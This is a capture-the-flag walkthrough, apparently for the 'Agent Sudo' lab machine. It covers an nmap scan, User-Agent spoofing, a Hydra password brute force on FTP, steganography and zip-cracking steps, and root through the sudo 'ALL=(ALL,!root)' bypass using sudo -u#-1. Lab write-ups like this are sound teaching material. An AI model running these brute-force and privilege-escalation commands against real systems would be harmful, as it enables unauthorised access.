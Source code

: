# Agent Sudo 

#### Nmap Scan Results :

```
Nmap scan report for 10.10.191.93
Host is up (0.047s latency).
Not shown: 65532 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
|_  256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Annoucement
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).

```

We see there are 3 ports open and then lets go to the link in our browser and there we see a hint for us which says change the se your own <b>codename</b> as user-agent to access the site. So now we can basicallly either use curl or Burp Suite i prefer Burp and here we are gonna change the User agent to C instead of your browser etc. and when we do that we have a possibility to go to the redirected link and see the answer which says ->

```html
Attention chris, <br><br>

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak! <br><br>

From,<br>
Agent R 

```
Here we can see that the agents name is chris and they say the password is weak sooooo lets brute force our way in.For which you can use Hydra which is amazing for bruteforcing here is a link for a cheatsheet if you wanna dont have experience with Hydra before and dont understand the syntax from the manual or help. https://github.com/frizb/Hydra-Cheatsheet

```
hydra -t 50 -l chris -P /usr/share/wordlists/rockyou.txt -vV 10.10.191.93 ftp 
```
and now lets wait for the passwords to start rolling in.After all this you should get the password possibly in like 2 min i think and then we have login to ftp with the user as chris and the password we just got 
```
ftp 10.10.191.93
```
and here we see there are 3 files lets get them all to our desktop using the get command and then inspect them each one by one.First lets investigate the text file which says 

Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C

So basicallly here it says there is information inside the images which means there is stegnagraphy involved and for stegnagraphy we have this great tool called steghide that we can use to extract stuff out of a picture basically there is also other tools like binwalk,zsteg etc. 
To download steghide just do a sudo apt install steghide .

Now at first lets try steghide with a basic weak password like password,123456 and see what we get and just ennumerate on these images and see what we can get. So when we use binwalk on cutie.png we find that are hidden files in there like a zip file which really is something we should take a look at.So lets go to that zip file try to unzip it and turns out it has a password sooooo what we will do now is use a tool called John the ripper to crack the password the syntax would go something like this :
```
zip2john 8702 > hash
john hash -w=/usr/share/wordlists/rockyou.txt 
```
then we we get a text file which has the following content -> 
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R

and in here the QXJlYTUx text looks encrypted with base64 and we can just decode like this 

echo QXJlYTUx | base64 --decode 
echo QXJlYTUx | base64 --decode 
After we have this password we just decoded we can go back to the cute-alien.jpg image and use steghide to extract the stuff of there and use the password we just got the syntax for that would be ->
```
steghide --extract -sf cute_alien.jpg 
```
and here we will now get a message.txt file extracted for us which contains credentials for the next steps.If you cat it out you will see ->

Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris

now this is what we can use to login SSH and then get the user flag.and then here we have another question which says where is the image from for which we need to reverse search the image using google images to find out the incident.
Now to get the files from ssh we use a tool called scp and syntax for using it would go like this ->

```
scp james@10.10.142.58:/home/james/Alien_autospy.jpg
```
Now lets reverse search this on google images and we find out that the incident was roswell alien autopsy and now lets try priv esc for which we sudo -l in the ssh terminal and we will see it allows us to do this 

james ALL=(ALL,!root) /bin/bash

and this is part of a security bypass exploit if you google search ALL=(ALL,!root) you will see exploit-db page and use sudo -u#-1 /bin/bash and this will get you a root shell and then traverse over to /root/ and cat out the root.txt flag to see Agent R's name and the root flag.
 


